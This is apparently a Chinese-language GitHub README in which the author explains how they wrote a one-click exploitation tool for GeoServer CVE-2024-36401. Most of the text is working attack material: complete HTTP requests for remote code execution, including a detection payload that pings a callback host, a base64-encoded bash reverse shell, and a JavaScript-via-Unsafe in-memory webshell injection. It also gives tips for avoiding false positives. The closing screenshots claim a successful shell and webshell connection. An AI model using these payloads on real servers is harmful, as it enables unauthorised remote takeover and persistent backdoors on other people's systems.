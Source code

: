# geoserver CVE-2024-36401 一键漏洞利用工具

geoserver CVE-2024-36401

原本没打算写的，主要是想着直接去搜一下工具，直接用着方便就OK了

找到一个geoserver CVE-2024-36401漏洞利用工具

GeoServer 综合漏洞扫描工具V1.2 发布！

![image](https://github.com/MInggongK/geoserver-/blob/main/dsfdsf.png)

但是实际使用下来感觉到这个工具稍微有点尴，作者说是go语言写的，速度极快，主要表现是两点

1、闪退，不明原因的闪退，检测都要闪退

2、使用yakit漏洞是存在的，但是他这个工具不存在，就没明白怎么回事，估计是他的判断逻辑上出了问题

那么就想着能不能自己写一个试试

但是发现这个漏洞实际写下来，也没那么简单

简单说一下编写思路吧

1，默认payload:

POST /geoserver/wfs HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Host: xxxx
Accept-Language: en-US;q=0.9,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
xmlns:topp='http://www.openplans.org/topp'
xmlns:fes='http://www.opengis.net/fes/2.0'
xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'ping wsn9.callback.red')</wfs:valueReference>
</wfs:GetPropertyValue>

那么注意这里： <wfs:Query typeNames='sf:archsites'/>

这个地方，如果你需要采取正则的方式去拿到，这个是sf:archsites网站的一个基本标识，你需要先拿到他的

<wfs:ReturnFeatureType>(.*?)</wfs:ReturnFeatureType>信息，然后你可以采取拼接的方式

判断漏洞的时候
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'ping wsn9.callback.red')</wfs:valueReference>
  
  这个地方，其实都不用去查找dns记录
  
  简单的逻辑就是判断是否存在异常的类
  
  如java.lang.ClassCastException
  
当然，这只是判断逻辑

这个回显本来就是400，这个地方容易踩坑，你需要判断错误页面后，进行数据查找

首先你需要请求一个
<wfs:ListStoredQueries service='WFS'\n" +
 " version='2.0.0'\n" +
 " xmlns:wfs='http://www.opengis.net/wfs/2.0'/>
 
 这个信息代表了你可以拿到他的<wfs:ReturnFeatureType>(.*?)</wfs:ReturnFeatureType>
 
 然后直接赋值给文本，然后再调一个函数方法，把文本的截取的信息，拼接到参数的<wfs:Query typeNames='sf:archsites'/>这里
 
 这条就会对判断的逻辑相对精准，检测类就这么写就可以了
 
 如果你只是一直使用 <wfs:Query typeNames='sf:archsites'/>，那么误判的几率很高，会提示找不到这个sf:archsites

 反弹类
 
我们看看反弹的payload:

POST /geoserver/wfs HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: JSESSIONID=5D030E92A0AFCC3B5006597E6524FD8D
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Type: application/xml
Content-Length: 438

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}')</wfs:valueReference>
</wfs:GetPropertyValue>

我们注意这里：

<wfs:Query typeNames='sf:archsites'/>

同样，先要正则取值然后拼接给他

然后直接请求

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvOTk5OSAwPiYx这里是加密过的base64

编写的时候，就把用户输入的bash -i >& /dev/tcp/127.0.0.1/9999 0>&1，转换成base64就可以了

然后发请求，同样，去找关键的异常类，判断逻辑即可

内存马注入类
这个地方
POST /geoserver/wfs HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Host: xxx
Accept-Language: en-US;q=0.9,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 20383

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'
var str="";
var bt;
try {
    bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
} catch (e) {
    bt = java.util.Base64.getDecoder().decode(str);
}
var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafe.setAccessible(true);
unsafe = theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), bt, null).newInstance();
')</wfs:valueReference>
</wfs:GetPropertyValue>

这个地方还是有  <wfs:Query typeNames='sf:archsites'/>，老规矩，先取值

在star这里，放入你生成的base64的内存马加密代码

然后判断逻辑即可

容易踩坑的点
1、  <wfs:Query typeNames='sf:archsites'/>重复利用，误判几率98%，报错如下：

https://geoserver.epic.blue/geoserver/schemas/ows/1.1.0/owsAll.xsd">
<ows:Exception exceptionCode="InvalidParameterValue" locator="typeName">
<ows:ExceptionText>Could not locate {http://www.openplans.org/spearfish}archsites in catalog.<

存在漏洞的点：
<ows:Exception exceptionCode="NoApplicableCode">
<ows:ExceptionText>java.lang.ClassCastException: class java.lang.ProcessImpl cannot be cast to class org.opengis.feature.type.AttributeDescriptor (java.lang.ProcessImpl is in module java.base of loader &amp;apos;bootstrap&amp;apos;; org.opengis.feature.type.AttributeDescriptor is in unnamed module of loader org.apache.catalina.loader.ParallelWebappClassLoader @4b9df8a)
class java.lang.ProcessImpl cannot be cast to class org.opengis.feature.type.AttributeDescriptor (java.lang.ProcessImpl is in module java.base of loader &amp;apos;bootstrap&amp;apos;; org.opengis.feature.type.AttributeDescriptor is in unnamed module of loader org.apache.catalina.loader.ParallelWebappClassLoader @4b9df8a)</ows:ExceptionText>
</ows:Exception>

简单来讲存在漏洞就是java.lang.ClassCastException

误判就是Could not locate {http://www.openplans.org/spearfish}archsites in catalog

2、判断方式：
抓取调用的wfs:ReturnFeatureType>，赋给文本-文本调用函数方法，请求，拼接在请求，判断回显的异常

文本调用函数这里，需要提前给值，这样防止出现空指针异常，请求前拼接，判断回显的异常，是异常内进行判断

最终我们实现了这个漏洞利用工具的编写

![image](https://github.com/MInggongK/geoserver-/blob/main/dfdsfdf.png)

我们来测试一下漏洞

![image](https://github.com/MInggongK/geoserver-/blob/main/dsfsdfsd.png)

我们检测到了漏洞，拿到了端点，反弹shell也成功了

接下来我们来试试注入内存马

![image](https://github.com/MInggongK/geoserver-/blob/main/gfdgfdg.png)

显示是成功注入内存马，我们来连接看看是否成功

![image](https://github.com/MInggongK/geoserver-/blob/main/fdgdgds.png)

是可以连接的



















 
            

  

